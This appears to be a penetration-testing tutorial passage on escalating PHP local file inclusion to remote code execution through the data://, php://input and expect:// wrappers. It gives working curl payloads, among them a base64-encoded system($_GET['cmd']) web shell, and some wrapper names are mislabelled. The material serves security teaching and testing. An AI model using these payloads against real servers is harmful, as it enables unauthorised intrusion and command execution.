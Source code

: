 
#### **Exploiting LFI for RCE**

#### **Data Wrapper (data://)**

The data:// wrapper allows inclusion of data directly into PHP scripts, making it ideal for injecting PHP code snippets and executing them on the server.

RCE via data://

PHP

```php
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id"
```

In this example:

We encode our PHP payload **`(<?php system($_GET["cmd"]); ?>) in Base64.`**

We pass it using data:// and specify text/plain;base64 as the content type.

#### **Input Wrapper (input://)**

The input:// wrapper allows PHP to read data from the standard input, typically used in POST requests. This wrapper is useful when the vulnerable parameter accepts POST data.

RCE via input:/

Shell

```php
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

Here:

We send a POST request with our PHP payload using php://input.

The vulnerable script interprets this input and executes the command specified in cmd.

#### **Expect Wrapper (expect://)**

The expect:// wrapper is used to execute external commands directly through URL streams. It requires the expect PHP extension to be installed and enabled on the server.

RCE via expect://

Shell

```php
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

In this scenario:

We directly execute the id command using the expect:// wrapper.

The result is returned as the output of the HTTP request.
